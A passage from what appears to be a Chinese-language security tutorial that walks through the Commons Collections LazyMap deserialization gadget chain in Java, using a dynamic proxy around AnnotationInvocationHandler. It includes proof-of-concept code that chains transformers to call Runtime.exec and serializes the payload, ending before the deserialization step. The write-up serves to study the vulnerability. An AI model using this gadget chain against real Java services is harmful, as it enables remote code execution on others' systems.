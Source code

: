发现AnnotationInvocationHandler的invoke方法中有相关的调用，` Object var6 = this.memberValues.get(var4);`其中`this.memberValues`是可控的，令其为精心构造的LazyMap对象，但是我们要怎么触发AnnotationInvocationHandler.invoke()呢？熟悉java的同学都知道java有一种机制——动态代理。

动态代理参考：

https://www.mi1k7ea.com/2019/02/01/Java%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86%E6%9C%BA%E5%88%B6/

总结为一句话就是，被动态代理的对象调用任意方法都会通过对应的InvocationHandler的invoke方法触发

所以我们只要创建一个LazyMap的动态代理，然后再用动态代理调用LazyMap的某个方法就行了，但是为了反序列化的时候自动触发，我们应该找的是某个重写了readObject方法的类，这个类的readObject方法中可以通过动态代理调用LazyMap的某个方法，其实这和直接调用LazyMap某个方法需要满足的条件几乎是一样的，因为某个类的动态代理与它本身实现了同一个接口。而我们通过分析TransformedMap利用链的时候，已经知道了在AnnotationInvocationHandler的readObject方法中会调用某个Map类型对象的entrySet()方法，而LazyMap以及他的动态代理都是Map类型，所以，一条利用链就这么出来了：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.eclipse.persistence.internal.xr.Invocation;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class POC5 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","axin");

        Map lazyMap = LazyMap.decorate(innerMap,chain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        // 创建LazyMap的handler实例
        InvocationHandler handler = (InvocationHandler) cons.newInstance(Override.class,lazyMap);
        // 创建LazyMap的动态代理实例
        Map mapProxy = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(), handler);
        
        // 创建一个AnnotationInvocationHandler实例，并且把刚刚创建的代理赋值给this.memberValues
        InvocationHandler handler1 = (InvocationHandler)cons.newInstance(Override.class, mapProxy);

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(handler1);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
```